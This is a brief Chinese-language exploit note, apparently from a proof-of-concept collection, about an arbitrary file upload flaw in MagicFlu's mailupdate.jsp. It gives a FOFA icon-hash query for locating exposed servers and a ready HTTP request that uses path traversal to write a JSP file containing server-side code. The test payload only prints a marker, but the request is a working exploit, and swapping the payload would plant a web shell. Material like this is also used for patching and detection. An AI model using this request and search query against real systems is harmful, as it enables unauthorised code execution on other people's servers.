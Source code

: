 ## 魔方网表mailupdate.jsp接口存在任意文件上传漏洞


## fofa
```
icon_hash="694014318"

```


## poc
```
GET /magicflu/html/mail/mailupdate.jsp?messageid=/../../../test1.jsp&messagecontent=%3C%25+out.println%28%22tteesstt1%22%29%3B%25%3E HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
```
